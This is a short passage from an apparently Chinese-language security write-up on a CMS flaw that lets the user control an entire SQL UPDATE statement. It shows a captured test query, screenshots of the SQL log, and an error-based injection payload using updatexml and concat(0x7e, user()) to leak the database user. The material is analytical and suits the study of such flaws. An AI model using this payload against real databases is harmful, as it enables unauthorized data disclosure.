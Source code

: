抓包传入一句测试的语句：

```bash
update of_cms_link set link_name='panda' where link_id = 4
```

[![](assets/1698897408-72f3a072a3da4d7c163018d76563f28e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129160513-f896ac06-127e-1.png)

查看 SQL 执行记录：

[![](assets/1698897408-2856f7fbe9e2f6036778aba9ebaaa831.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129160531-03343994-127f-1.png)

完完全全的可以控制 update 型的 SQL 注入语句，因此可以利用以下语句进行注入：

```bash
update of_cms_link set link_name=updatexml(1,concat(0x7e,(user())),0) where link_id = 4
```
